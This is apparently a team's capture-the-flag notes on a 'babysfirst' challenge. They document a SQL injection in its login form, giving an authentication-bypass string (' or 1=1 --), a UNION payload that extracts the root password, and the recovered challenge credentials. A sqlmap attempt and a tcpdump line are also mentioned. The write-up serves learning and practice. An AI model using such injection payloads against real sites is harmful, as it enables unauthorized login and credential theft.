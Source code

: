 # Initial screen  
	babysfirst  
	login  

	Username:  

	Password:  

# Progress  
## Injection 
There is an injection vulnerability in the login form.  
If you put ' or 1=1 -- in as your username and anything as the password it gives you the following screen.  

	babysfirst  
	success!  

	logged in as root  

The query that was executed is returned in the HTTP response headers  

	X-Sql=select name from users where name = '' or 1=1 -- ' and password = '' limit 1;  

Getting a bit further.  You can UNION the query and pull more details.  I think this may take digging into the schemas table and finding all the column names in the users table.  

	root' UNION select password as name from users where name='root' order by name asc --  	
	X-Sql=select name from users where name = 'root' UNION select password as name from users where name='root' order by name asc --' and password = '' limit 1;  

## Users/Passwords  
Using the UNION query the following users/passwords were pulled.  

	root/barking up the wrong tree  
	user/password  

## Notes from binBuddha
I attempted to learn some sqlmap, but I think the webserver isn't answering because it didn't get a useragent, or otherwise knows it's sqlmap.
I did look at a raw tcpdump, and noticed "ec2-54-226-200-42.compute-1.amazonaws.com.http: Flags [S], cksum 0x0b4a (incorrect -> 0x4231)" Not sure if that invalid checksum is relevant or not.
